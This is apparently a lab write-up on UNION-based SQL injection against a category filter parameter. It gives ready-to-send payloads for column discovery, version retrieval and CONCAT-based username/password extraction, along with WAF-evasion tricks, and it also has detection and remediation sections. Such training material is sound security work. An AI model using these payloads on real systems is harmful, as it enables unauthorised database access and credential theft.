## 🔹 5. Exact lab methodology 

### 🧩 Step 1 — Capture the target request

GET /filter?category=Gifts HTTP/1.1 Host: <HOST>

→ Send to *Repeater* for manual payload testing.

---

### 🧩 Step 2 — Test quoting & comment syntax

Try:

?category=Gifts'

→ If you get an SQL error (500), parameter is *quoted*.

Now test which comment syntax is accepted:

?category=Gifts'# ?category=Gifts'--%20

✅ In this lab, *# worked* successfully (MySQL).

---

### 🧩 Step 3 — Find column count

Start with:

?category=Gifts' UNION SELECT NULL# ?category=Gifts' UNION SELECT NULL,NULL#

→ The request returning a *normal 200 response* indicates the correct number of columns.  
In this case: ✅ *2 columns*.

---

### 🧩 Step 4 — Identify string-compatible column(s)

Inject marker tokens:

?category=Gifts' UNION SELECT 'MAGIC',NULL# ?category=Gifts' UNION SELECT NULL,'MAGIC'#

→ The one displaying *MAGIC* in the page is the *string column* (e.g., column 1).

---

### 🧩 Step 5 — Retrieve database version

Now replace 'MAGIC' with DB version query:

MySQL  →  ?category=Gifts' UNION SELECT @@version,NULL# Postgres → ?category=Gifts' UNION SELECT version(),NULL# MSSQL  →  ?category=Gifts' UNION SELECT @@VERSION,NULL#

→ The response displaying the version string proves successful UNION-based SQLi.

---

## 🧾 Proof / Evidence

*Screenshot 1 — Confirmed UNION Injection with DB Version*

*Description:*  
Repeater request sequence showing:  
1️⃣ ' added → SQL error observed.  
2️⃣ # comment accepted → 200 OK.  
3️⃣ UNION SELECT NULL,NULL# → correct column count found.  
4️⃣ UNION SELECT @@version,NULL# → DB version reflected in response (proof of successful UNION SQLi).

---

## 🔹 6. Repeater-ready PoC templates

*Find number of columns:*

GET /filter?category=Gifts' UNION SELECT NULL,NULL# HTTP/1.1 Host: <HOST>

*Detect string column:*

GET /filter?category=Gifts' UNION SELECT 'MAGIC',NULL# HTTP/1.1 Host: <HOST>

*Show DB version:*

GET /filter?category=Gifts' UNION SELECT @@version,NULL# HTTP/1.1 Host: <HOST>

---

## 🔹 7. Why # vs -- matters

- -- *must* have a trailing space (e.g., `-- `).  
- # works directly in *MySQL* and raw Repeater requests.  
⚠️ Note: Browsers treat # as a fragment — always use *Repeater*, not the browser.

---

## 🔹 8. Troubleshooting & common issues

- Browser removes/ignores # → use *Repeater*.  
- 500 error → adjust column count.  
- No visible result → check reflected column or HTML source.  
- WAF blocks UNION → try obfuscation:
  - UN/**/ION SELECT
  - UNI%0AON
  - CHAR() / CONCAT() payloads

---

## 🔹 9. Detection (what defenders see)

- SQL keywords (UNION, SELECT, version()) in URLs.
- Response-length anomalies or timing shifts.
- Bursts of test payloads with ', --, or #.

---

## 🔹 10. Remediation checklist

✅ *Parameterized queries* only (no string concatenation).  
✅ *Least-privilege* DB user (no admin perms).  
✅ *No verbose DB errors* to clients.  
✅ *Input validation* and whitelisting.  
✅ *Rate-limit* & log suspicious requests.  
✅ *WAF* for additional filtering/logging.

---

## 🔹 11. Pentest quick checklist

1️⃣ Capture request → Repeater  
2️⃣ Test ' → confirm quote  
3️⃣ Identify comment (# / --)  
4️⃣ Find number of columns → NULL sequence  
5️⃣ Identify reflected column with 'MARK'  
6️⃣ Inject @@version / version()  
7️⃣ (If possible) extract user data with UNION SELECT  
8️⃣ Save PoC requests + raw responses  
9️⃣ Recommend remediation steps

---

## 🔹 12. Pocket memory cue

> ' → comment → count columns → mark → version() → dump data.

---

## 🔹 Out-of-the-box / Advanced snippets 

*Comment syntaxes*

--%20     # (MySQL only) /.../   (universal)

*Column discovery*

UNION SELECT NULL# UNION SELECT NULL,NULL# UNION SELECT NULL,NULL,NULL#

*DB version*

MySQL:    @@version Postgres: version() MSSQL:    @@VERSION SQLite:   sqlite_version()

*Concatenation (if 1 string column)*

MySQL/Postgres: CONCAT(username,':',password) MSSQL: username + ':' + password Oracle: username || ':' || password

---
